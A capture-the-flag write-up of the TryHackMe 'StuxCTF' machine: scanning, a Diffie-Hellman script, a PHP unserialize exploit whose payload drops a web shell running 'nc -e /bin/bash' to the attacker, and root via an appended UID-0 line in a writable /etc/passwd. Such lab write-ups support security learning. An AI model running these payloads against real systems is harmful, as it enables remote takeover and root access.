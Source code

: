 ```yaml
---
title: StuxCTF 🧬
tags:
  - Linux
  - Python-Scripting
  - LFI
  - Decrypting
  - Crypto
  - TryHackMe
  - Medium
---
```

![](Pasted%20image%2020240531202235.png)

> *Even though this is a "Medium" machine, I found it a bit hard*

I started performing an Nmap scan:

```shell
nmap -sC -T4 -p- 10.10.114.31 > sC.txt

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-31 19:16 CEST
Nmap scan report for 10.10.114.31
Host is up (0.049s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
| ssh-hostkey: 
|   2048 e8:da:b7:0d:a7:a1:cc:8e:ac:4b:19:6d:25:2b:3e:77 (RSA)
|   256 c1:0c:5a:db:6c:d6:a3:15:96:85:21:e9:48:65:28:42 (ECDSA)
|_  256 0f:1a:6a:d1:bb:cb:a6:3e:bd:8f:99:8d:da:2f:30:86 (ED25519)
80/tcp open  http
| http-robots.txt: 1 disallowed entry 
|_/StuxCTF/
|_http-title: Default Page

Nmap done: 1 IP address (1 host up) scanned in 22.50 seconds
```

So I decided to take a look at the webpage:

![](Pasted%20image%2020240531202432.png)

As I found this, I took a look to the source code:

![](Pasted%20image%2020240531202503.png)

Here I found what it seemed to be some kind of variables to solve a problem.

Checking the hint on THM it seemed like [Diffie-Hellman key exchange](https://en.wikipedia.org/wiki/Diffie%E2%80%93Hellman_key_exchange)

![](Pasted%20image%2020240531202649.png)

So I created the following script:

```python
p=9975298661930085086019708402870402191114171745913160469454315876556947370642799226714405016920875594030192024506376929926694545081888689821796050434591251
g=7
a=330
b=450
gc=6091917800833598741530924081762225477418277010142022622731688158297759621329407070985497917078988781448889947074350694220209769840915705739528359582454617
gca=(gc**a)%p
gcab=(gca**b)%p

print(gcab)
print(str(gcab)[:128])
```

Which gave me this directory: `47315028937264895539131328176684350732577039984023005189203993885687328953804202704977050807800832928198526567069446044422855055`

So I searched for it:

![](Pasted%20image%2020240531202831.png)

As I didn't detect anything with [dirsearch 📁](/notes/Tools/dirsearch.md), I decided to look at the source code:

![](Pasted%20image%2020240531202937.png)

It gave me the hint `<!-- hint: /?file= -->`, so it seemed like some kind of LFI

I tried to fuzz it and didn't work, so I put the unique file that is detected by **dirsearch**, which is `index.php` and searched for it: `http://10.10.114.31/47315028937264895539131328176684350732577039984023005189203993885687328953804202704977050807800832928198526567069446044422855055/?file=index.php`

It printed some kind of hex code, which I decrypted using [Cyberchef](https://cyberchef.org/):

![](Pasted%20image%2020240531203241.png)

![](Pasted%20image%2020240531203322.png)

It was the script behind the `?file=`:

```html
<br />
error_reporting(0);<br />
class file {<br />
        public $file = "dump.txt";<br />
        public $data = "dump test";<br />
        function __destruct(){<br />
                file_put_contents($this->file, $this->data);<br />
        }<br />
}<br />
<br />
<br />
$file_name = $_GET['file'];<br />
if(isset($file_name) && !file_exists($file_name)){<br />
        echo "File no Exist!";<br />
}<br />
<br />
if($file_name=="index.php"){<br />
        $content = file_get_contents($file_name);<br />
        $tags = array("", "");<br />
        echo bin2hex(strrev(base64_encode(nl2br(str_replace($tags, "", $content)))));<br />
}<br />
unserialize(file_get_contents($file_name));<br />
<br />
<!DOCTYPE html><br />
    <head><br />
        <title>StuxCTF</title><br />
	<meta charset="UTF-8"><br />
        <meta name="viewport" content="width=device-width, initial-scale=1"><br />
        <link rel="stylesheet" href="assets/css/bootstrap.min.css" /><br />
        <link rel="stylesheet" href="assets/css/style.css" /><br />
    </head><br />
        <body><br />
        <nav class="navbar navbar-default navbar-fixed-top"><br />
          <div class="container"><br />
            <div class="navbar-header"><br />
              <button type="button" class="navbar-toggle collapsed" data-toggle="collapse" data-target="#navbar" aria-expanded="false" aria-controls="navbar"><br />
                <span class="sr-only">Toggle navigation</span><br />
              </button><br />
              <a class="navbar-brand" href="index.php">Home</a><br />
            </div><br />
          </div><br />
        </nav><br />
        <!-- hint: /?file= --><br />
        <div class="container"><br />
            <div class="jumbotron"><br />
				<center><br />
					<h1>Follow the white rabbit..</h1><br />
				</center><br />
            </div><br />
        </div>            <br />
        <script src="assets/js/jquery-1.11.3.min.js"></script><br />
        <script src="assets/js/bootstrap.min.js"></script><br />
    </body><br />
</html><br />
```

I analyzed it in search of some code vulnerability and I found that in `unserialize(file_get_contents($file_name));` the function `unserialize` let us to load any file on the Internet.
- I found [this documentation](https://notsosecure.com/remote-code-execution-php-unserialize) which explains more about this vulnerability

So, to gain RCE, I created the file `shell.php`:

```php
<?php
class file
{
 public $file = 'remote.php';
 public $data = '<?php shell_exec("nc -e /bin/bash YOUR_IP YOUR_PORT"); ?>';
}

echo (serialize(new file));

?>
```

Then I performed the following command:

```shell
php shell.php > shell.txt
```

After this I initialize a python server `python3 -m http.server 8090`

And then I search for my file (the `.txt` one) like: `view-source:10.10.114.31/47315028937264895539131328176684350732577039984023005189203993885687328953804202704977050807800832928198526567069446044422855055/?file=http://10.11.74.136:8090/shell.txt`

So once here, the file is uploaded and you can search it: `view-source:10.10.114.31/47315028937264895539131328176684350732577039984023005189203993885687328953804202704977050807800832928198526567069446044422855055/remote.php` 

> Take care of putting the name inside the php shell (in my case `remote.php`)

We've got a reverse shell:

![](Pasted%20image%2020240531204257.png)

And we found the user flag on the `/home/grecia` directory

![](Pasted%20image%2020240531204352.png)

I uploaded `linpeas` to scan for privilege escalation and found that the `/etc/passwd` was writable, so I did the following:

```
# On my machine
openssl passwd -1 -salt hacker hacker

# Then, on the /etc/passwd file I added at the end
hacker:$1$hacker$TzyKlv0/R/c28R.GAeLw.1:0:0:Hacker:/root:/bin/bash
```

![](Pasted%20image%2020240531204719.png)

After this, I logged in as the user `hacker` and got root access.

Got the root flag:

![](Pasted%20image%2020240531204821.png)

==Machine pwned==